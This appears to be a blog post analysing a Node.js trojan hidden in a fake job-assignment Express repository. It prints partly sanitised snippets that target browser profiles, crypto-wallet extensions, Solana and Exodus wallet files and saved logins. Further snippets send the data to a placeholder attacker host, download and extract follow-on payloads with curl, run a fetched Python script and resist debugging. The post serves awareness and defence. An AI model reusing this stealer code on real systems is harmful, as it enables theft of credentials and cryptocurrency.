

# Unveiling a Node.js Trojan Threatening Crypto Backends

## Disclaimer

The code snippets provided in this article are for educational purposes only and have been sanitized to remove any malicious functionality. All content is intended for normal developers to increase awareness and help them protect themselves and their systems from potential threats. Under no circumstances should this information be used for malicious purposes.

## Introduction

I recently came across a heavily obfuscated JavaScript trojan hidden within an Express.js application hosted on a public repository. This malicious code was designed to harvest sensitive data from user profiles, wallets, and other personal files, then transmit it to a remote server controlled by an attacker. In this article, I’ll detail how the trojan was injected into the server code, analyze its functionality, and provide recommendations to prevent such security breaches in the future.

This incident highlights the growing trend of supply chain attacks, where malicious actors exploit trusted repositories or libraries to inject harmful code. These attacks target developers and organizations through tools they inherently trust, making them particularly insidious.


## Background

I have been approached with a seemingly straightforward test assignment to evaluate my backend development skills. The assignment was hosted on a private public repository and centered around a Node.js/Express application. The task seemed simple:

```text
...integrate smart contract functionality into the backend.
Use the repository provided at https://_public_repo_hosting.org/link_to_repository/goes_here.
Add a new API endpoint to the existing routes, query any smart contract, and log the results to the console.
Submit a short video showing your implementation.
```

## The Trojan’s Operation

The brilliance of this trojan lies in its simplicity and timing. Here’s how it was designed to work:

**Cloning the Repository:** A developer receives the task, clones the repository, and begins examining the codebase.

**Installing Dependencies:** As Node.js applications typically rely on numerous npm packages, the developer runs npm install, pulling in dependencies.

**Starting the Server:** While testing or running the server locally, the trojan quietly activates alongside the legitimate application.

**Execution of Malicious Code:**
The trojan scans the developer's system for sensitive files and information, including browser profiles, wallet files, and keychains.
It transmits the gathered data to an attacker-controlled server without the developer noticing.
Obfuscation and Delayed Detection: The obfuscated code ensures the malicious behavior remains hidden from casual inspection, making it harder to detect during regular debugging or testing.

By the time the developer submits their work, their system could already be compromised, with their data in the attacker’s hands. This clever timing exploits the trust inherent in common development workflows, making the attack all the more dangerous.


## How the Trojan Injects itself

The Express.js application has a standard setup where server.js includes app.js, which sets up the routing:


```javascript
// app.js
const express = require('express');
const app = express();

const router = require('./routes');
app.use(router);

module.exports = app;
```

The routes directory seems normal:

```shell
index.js
orderRoute.js
paymentRoute.js
productRoute.js
userRoute.js
```

However, in userRoute.js, there is an import that appears legitimate but hides the trojan:

```javascript
// userRoute.js
const {
  isAuthenticatedUser,
  authorizeRoles,
} = require('../middlewares/user_actions/auth');
const axios = require('axios');
```

Inside the user_actions directory, the auth.js middleware contains standard authentication code:

```javascript
// auth.js
const jwt = require('jsonwebtoken');
const User = require('../../models/userModel');
const ErrorHandler = require('../../utils/errorHandler');
// NEXT LINE INJECTS TROJAN INTO THE CODE
const asyncErrorHandler = require('../helpers/asyncErrorHandler');

exports.isAuthenticatedUser = asyncErrorHandler(async (req, res, next) => {
  const { token } = req.cookies;

  if (!token) {
    return next(new ErrorHandler('Please Login to Access', 401));
  }

  const decodedData = jwt.verify(token, process.env.JWT_SECRET);
  req.user = await User.findById(decodedData.id);
  next();
});

exports.authorizeRoles = (...roles) => {
  return (req, res, next) => {
    if (!roles.includes(req.user.role)) {
      return next(
        new ErrorHandler(`Role: ${req.user.role} is not allowed`, 403)
      );
    }
    next();
  };
};
```

At first glance, everything seems fine. However, hidden within the middlewares directory is a file named authErrorHandler.js. This file contains obfuscated code acting as a trojan.

The `asyncErrorHandler` module is not a standard or commonly used middleware. Its presence suggests that it could be the entry point for the malicious code, especially since it's imported from a `helpers` directory, which might not be scrutinized closely.


## How the Trojan Looks Obfuscated



Due to its heavy obfuscation, the trojan can easily bypass detection by security tools like VirusTotal, as the code appears harmless or too scrambled for standard signature-based analysis to flag it.

Obfuscation techniques involve transforming the code into a format that is difficult to read and understand, often by replacing variable names with nonsensical strings, removing whitespace, and adding layers of indirection. This makes it challenging for both humans and automated tools to analyze the code.


## How the Trojan Works

### Importing Core Modules
The trojan begins by importing essential Node.js modules for file operations, system information, path handling, HTTP requests, and executing system commands:

```javascript
const fs = require('fs');
const os = require('os');
const path = require('path');
const request = require('request');
const { exec } = require('child_process');

const hostname = os.hostname();
const platform = os.platform();
const homeDir = os.homedir();
const tempDir = os.tmpdir();
```

### Targeting Browser Data and Wallets

The trojan defines paths to target data from various browsers and cryptocurrency wallets:

#### Browser paths

```javascript
const bravePaths = ["Local/BraveSoftware/Brave-Browser", "BraveSoftware/Brave-Browser", "BraveSoftware/Brave-Browser"];
const chromePaths = ["Local/Google/Chrome", "Google/Chrome", "google-chrome"];
const operaPaths = ["Roaming/Opera Software/Opera Stable", "com.operasoftware.Opera", "opera"];
```

#### Extension IDs (potentially targeting crypto wallets)

```javascript
const extensionIDs = [
  "abcdef....",
  // ... other extension IDs ...
  "abcdef12312...."
];
```
#### Identified Extensions

| Extension Name | Description |
|-|-|
| **MetaMask** | Ethereum wallet extension |
| **Phantom** | Solana blockchain wallet |
| **LastPass** | Password manager extension |
| **Binance Chain Wallet**| Binance Smart Chain and Ethereum wallet |
| **Coinbase Wallet** | Cryptocurrency wallet extension by Coinbase |
| **Keplr** | Cosmos-based blockchains wallet |
| **Brave Wallet** | Built-in Brave browser wallet |
| **TronLink** | Tron blockchain wallet extension |
| **Slope Wallet** | Solana blockchain wallet |


#### Unknown/Unverified Extensions
The other IDs are not immediately identifiable without further research or context. They could belong to less popular wallets, password managers, or other extensions that manage sensitive data. These unidentified extensions should be flagged for further investigation to determine their purpose and target audience.

### Collecting Data from User Profiles

The trojan attempts to access user profile data by iterating over potential profile directories and extensions:

```javascript
for (let profileIndex = 0; profileIndex < 200; profileIndex++) {
  const profilePath = basePath + '/' + (profileIndex === 0 ? "Default" : "Profile " + profileIndex) + "/Local Extension Settings";
  // Read files within the extension directory
}
```

### Accessing Cryptocurrency Wallets

#### Solana Wallet

The trojan searches for the Solana wallet file id.json:

```javascript
const solanaPath = path.join(homeDir, ".config", "solana", "id.json");
if (fs.existsSync(solanaPath)) {
  const fileOptions = { filename: "solana_id.txt" };
  //read files 
}
```

#### Exodus Wallet

It also targets the Exodus wallet directory based on the operating system:

```javascript
if (platform.startsWith('win')) {
  exodusPath = path.join(homeDir, "AppData", "Roaming", "Exodus", "exodus.wallet");
} else if (platform.startsWith('darwin')) {
  exodusPath = path.join(homeDir, "Library", "Application Support", "exodus.wallet");
} else {
  exodusPath = path.join(homeDir, ".config", "Exodus", "exodus.wallet");
}
//read files
```

### Accessing Firefox Data

The trojan attempts to read data from Firefox profiles, specifically targeting storage used by extensions:

```javascript
const firefoxProfilesPath = path.join(homeDir, "AppData", "Roaming", "Mozilla", "Firefox", "Profiles");
...
const storagePath = path.join(profilePath, "storage", "default");
...
// read profiles data
```

### Collecting Login Data

The trojan collects login data (which may contain saved passwords) from browsers like Chrome and Brave:

```javascript
// Collecting Chrome login data
const chromeLoginDataPath = path.join(homeDir, "Library", "Application Support", "Google", "Chrome");
// cycle by profiles 
const profileName = profileIndex === 0 ? "Default" : "Profile " + profileIndex;
const loginDataPath = path.join(..., "Login Data");
// read files in cycle
```

A similar approach is used for Brave Browser.

### Sending Data to the Hacker

The trojan sends the collected data to a remote server:

```javascript
const formData = {
  hid: `123_${hostname}`,
  uts: timestamp,
  multi_file: collectedFiles,
};

const requestOptions = {
  url: "http://hacker_ip_goes_here:port/uploads",
  formData: formData,
};

request.post(requestOptions, (error, response, body) => {
...
});
```

Interestingly, the trojan transmits data in plain text over HTTP, which makes it susceptible to detection through network traffic monitoring. A more sophisticated attack might have encrypted the data before transmission.


### Downloading Additional Malicious Payloads

The trojan attempts to download additional malware using curl:

```javascript
const zipPath = path.join(tempDir, "p.zi");
const zipDestination = path.join(tempDir, "p2.zip");

exec(`curl -Lo "${zipPath}" "http://hacker_ip_goes_here:port/pdown"`, (error, stdout, stderr) => {
  if (!error) {
    fs.rename(zipPath, zipDestination, err => {
      if (!err) {
        // Extract and execute the zip file
        exec(`tar -xf "${zipDestination}" -C "${homeDir}"`, () => {
          // Extraction complete
        });
      }
    });
  }
});
```

### Executing Python Scripts

On Windows systems, the trojan downloads and executes a Python script:

```javascript
if (platform.startsWith('win')) {
  const pythonPath = path.join(homeDir, ".pyp", "python.exe");
  const sysinfoPath = path.join(homeDir, ".sysinfo");
  const command = `"${pythonPath}" "${sysinfoPath}"`;

  if (fs.existsSync(pythonPath)) {
    request.get("http://hacker_ip_goes_here:port/client/...", (error, response, body) => {
      if (!error) {
        fs.writeFileSync(sysinfoPath, body);
        exec(command, (err, stdout, stderr) => {
          // Execution complete
        });
      }
    });
  } else {
    // Attempt to download Python or handle accordingly
  }
} else {
  // Similar logic for other platforms using python3
}
```

### Anti-Debugging Techniques

The trojan includes code to hinder debugging and analysis:

```javascript
function antiDebugging(variable) {
  if (typeof variable === "string") {
    return function () {}.constructor("while (true) {}").apply("counter");
  } else if ((("" + variable / variable).length !== 1) || (variable % 20 === 0)) {
    (function () {
      return true;
    }).constructor("debugger").call("action");
  } else {
    (function () {
      return false;
    }).constructor("debugger").apply("stateObject");
  }
  antiDebugging(++variable);
}
```

This code attempts to detect if it's being debugged and can halt execution or make analysis more difficult.

The anti-debugging techniques serve a dual purpose: complicating automated analysis and discouraging human investigators through repeated failures and confusion. This type of code often relies on psychological tactics, making analysts feel that further examination is futile.

Developers can detect such anti-debugging code by looking for suspicious function constructs, excessive use of `eval`, or functions that manipulate the `debugger` keyword. Using code beautifiers and debuggers that can step through obfuscated code can help in analyzing such threats.


## Grouping the Collected Data

The trojan collects data from several categories:

1. User Profiles and Extensions
   * **Browsers:** Chrome, Brave, Opera, and potentially Microsoft Edge.
   * **Extensions:** Targets specific extensions using their IDs, possibly related to cryptocurrency wallets or security tools.
2. Wallets and Cryptocurrency Data
   * **Solana Wallet:** Targets the id.json file containing private keys.
   * **Exodus Wallet:** Searches for wallet files in the exodus.wallet directory.
3. Login and Authentication Data
   * **Usernames and Passwords:** Extracted from browser login data files, potentially compromising accounts.
4. System Information
   * Hostname
   * Operating System Platform
   * Home Directory
   * Temporary Directory
  
## Hacker's Server and Data Transmission

* **Data Exfiltration Server:** http://hacker_ip_goes_here:port/uploads
* **Payload Download Server:** http://hacker_ip_goes_here:port/pdown
* **Method:** The trojan sends data using HTTP POST requests with form data, including the collected files.
* **Files Sent:** Browser data, wallet files, login credentials, and potentially other sensitive files.

## Risks and Implications

* **Data Theft:** Personal and sensitive data, including passwords and private keys, are compromised.
* **Financial Loss:** Access to cryptocurrency wallets can result in theft of digital assets.
* **Identity Theft:** Personal information can be used for fraudulent activities.
* **System Compromise:** Downloaded malware can lead to further exploitation of the system.

## Recommendations and Security Measures

* **🔑 Enable Two-Factor Authentication (2FA)**: Adds an extra layer of security to accounts.
* **🔒 Use Hardware Wallets**: Store cryptocurrencies in hardware wallets like Ledger or Trezor, which keep private keys offline.
* **🛠️ Regular Software Updates**: Keep operating systems, browsers, and software up to date to patch vulnerabilities.
* **Conduct Regular Code Reviews**: Regularly review code, especially from third-party sources, to detect anomalies.
* **Implement Security Tools**: Use static code analysis and antivirus software to detect malicious code.
* **Educate Team Members**: Train developers on secure coding practices and how to recognize suspicious code.
* **Isolate Sensitive Operations**: Use virtual machines or dedicated devices for handling sensitive data.
* Regularly run tools like `npm audit` to identify known vulnerabilities in dependencies. These tools can flag outdated or insecure packages that attackers might exploit.

## Conclusion

This incident underscores the importance of vigilance in software development and security. Malicious code can be hidden in plain sight, disguising itself within legitimate files and directories. By understanding how this trojan operated, developers can better protect their applications and users from similar threats in the future.

Open-source repositories can be powerful tools for collaboration but require transparency and careful vetting to ensure they do not become vectors for supply chain attacks. Developers should approach public repositories with caution and verify code integrity whenever possible.

This experience serves as a reminder that security is everyone's responsibility. By staying vigilant and following best practices, we can protect ourselves and our users from malicious threats that exploit our trust and reliance on shared code.

Remember, maintaining security is a continuous effort. Regular reviews, updates, and education are essential to safeguard against evolving threats.

**Disclaimer**: The code snippets provided in this article are for educational purposes only and have been sanitized to remove any malicious functionality.

#Cybersecurity #Node #JS #Trojan #SocialEngineering #Malware #Security #DataTheft #Cryptocurrency #OpenSource
